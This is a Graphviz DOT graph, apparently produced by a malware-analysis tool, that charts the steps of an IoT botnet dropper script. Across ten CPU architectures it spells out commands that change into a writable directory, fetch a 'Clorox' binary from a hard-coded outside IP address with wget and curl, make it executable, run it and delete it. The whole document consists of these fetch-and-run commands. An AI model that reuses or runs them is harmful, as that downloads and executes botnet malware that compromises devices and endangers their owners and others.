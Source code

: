 digraph {
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 10 [label="||,"];
10 [label="wget http://46.29.18.165/Clorox.mips "];
10 -> 12 [label=";,"];
12 [label="curl -O http://46.29.18.165/Clorox.mips "];
12 -> 14 [label=";,"];
14 [label="chmod +x Clorox.mips "];
14 -> 16 [label=";,"];
16 [label="./Clorox.mips "];
16 -> 18 [label=";,"];
18 [label="rm -rf Clorox.mips "];
18 -> 200 [label=";,"];
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 30 [label="||,"];
30 [label="wget http://46.29.18.165/Clorox.mpsl "];
30 -> 32 [label=";,"];
32 [label="curl -O http://46.29.18.165/Clorox.mpsl "];
32 -> 34 [label=";,"];
34 [label="chmod +x Clorox.mpsl "];
34 -> 36 [label=";,"];
36 [label="./Clorox.mpsl "];
36 -> 38 [label=";,"];
38 [label="rm -rf Clorox.mpsl "];
38 -> 200 [label=";,"];
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 50 [label="||,"];
50 [label="wget http://46.29.18.165/Clorox.sh4 "];
50 -> 52 [label=";,"];
52 [label="curl -O http://46.29.18.165/Clorox.sh4 "];
52 -> 54 [label=";,"];
54 [label="chmod +x Clorox.sh4 "];
54 -> 56 [label=";,"];
56 [label="./Clorox.sh4 "];
56 -> 58 [label=";,"];
58 [label="rm -rf Clorox.sh4 "];
58 -> 200 [label=";,"];
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 70 [label="||,"];
70 [label="wget http://46.29.18.165/Clorox.x86 "];
70 -> 72 [label=";,"];
72 [label="curl -O http://46.29.18.165/Clorox.x86 "];
72 -> 74 [label=";,"];
74 [label="chmod +x Clorox.x86 "];
74 -> 76 [label=";,"];
76 [label="./Clorox.x86 "];
76 -> 78 [label=";,"];
78 [label="rm -rf Clorox.x86 "];
78 -> 200 [label=";,"];
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 90 [label="||,"];
90 [label="wget http://46.29.18.165/Clorox.arm "];
90 -> 92 [label=";,"];
92 [label="curl -O http://46.29.18.165/Clorox.arm "];
92 -> 94 [label=";,"];
94 [label="chmod +x Clorox.arm "];
94 -> 96 [label=";,"];
96 [label="./Clorox.arm "];
96 -> 98 [label=";,"];
98 [label="rm -rf Clorox.arm "];
98 -> 200 [label=";,"];
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 210 [label="||,"];
210 [label="wget http://46.29.18.165/Clorox.pcc "];
210 -> 212 [label=";,"];
212 [label="curl -O http://46.29.18.165/Clorox.pcc "];
212 -> 214 [label=";,"];
214 [label="chmod +x Clorox.pcc "];
214 -> 216 [label=";,"];
216 [label="./Clorox.pcc "];
216 -> 217 [label=";,"];
217 [label="rm -rf Clorox.pcc "];
217 -> 200 [label=";,"];
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 130 [label="||,"];
130 [label="wget http://46.29.18.165/Clorox.i686 "];
130 -> 132 [label=";,"];
132 [label="curl -O http://46.29.18.165/Clorox.i686 "];
132 -> 134 [label=";,"];
134 [label="chmod +x Clorox.i686 "];
134 -> 136 [label=";,"];
136 [label="./Clorox.i686 "];
136 -> 138 [label=";,"];
138 [label="rm -rf Clorox.i686 "];
138 -> 200 [label=";,"];
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 150 [label="||,"];
150 [label="wget http://46.29.18.165/Clorox.i586 "];
150 -> 152 [label=";,"];
152 [label="curl -O http://46.29.18.165/Clorox.i586 "];
152 -> 154 [label=";,"];
154 [label="chmod +x Clorox.i586 "];
154 -> 156 [label=";,"];
156 [label="./Clorox.i586 "];
156 -> 158 [label=";,"];
158 [label="rm -rf Clorox.i586 "];
158 -> 200 [label=";,"];
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 170 [label="||,"];
170 [label="wget http://46.29.18.165/Clorox.m68k "];
170 -> 172 [label=";,"];
172 [label="curl -O http://46.29.18.165/Clorox.m68k "];
172 -> 174 [label=";,"];
174 [label="chmod +x Clorox.m68k "];
174 -> 176 [label=";,"];
176 [label="./Clorox.m68k "];
176 -> 178 [label=";,"];
178 [label="rm -rf Clorox.m68k "];
178 -> 200 [label=";,"];
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 190 [label="||,"];
190 [label="wget http://46.29.18.165/Clorox.spc "];
190 -> 192 [label=";,"];
192 [label="curl -O http://46.29.18.165/Clorox.spc "];
192 -> 194 [label=";,"];
194 [label="chmod +x Clorox.spc "];
194 -> 196 [label=";,"];
196 [label="./Clorox.spc "];
196 -> 198 [label=";,"];
198 [label="rm -rf Clorox.spc "];
198 -> 200 [label=";,"];
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 210 [label="||,"];
210 [label="wget http://46.29.18.165/Clorox.pcc "];
210 -> 212 [label=";,"];
212 [label="curl -O http://46.29.18.165/Clorox.pcc "];
212 -> 214 [label=";,"];
214 [label="chmod +x Clorox.pcc "];
214 -> 216 [label=";,"];
216 [label="./Clorox.pcc "];
216 -> 217 [label=";,"];
}
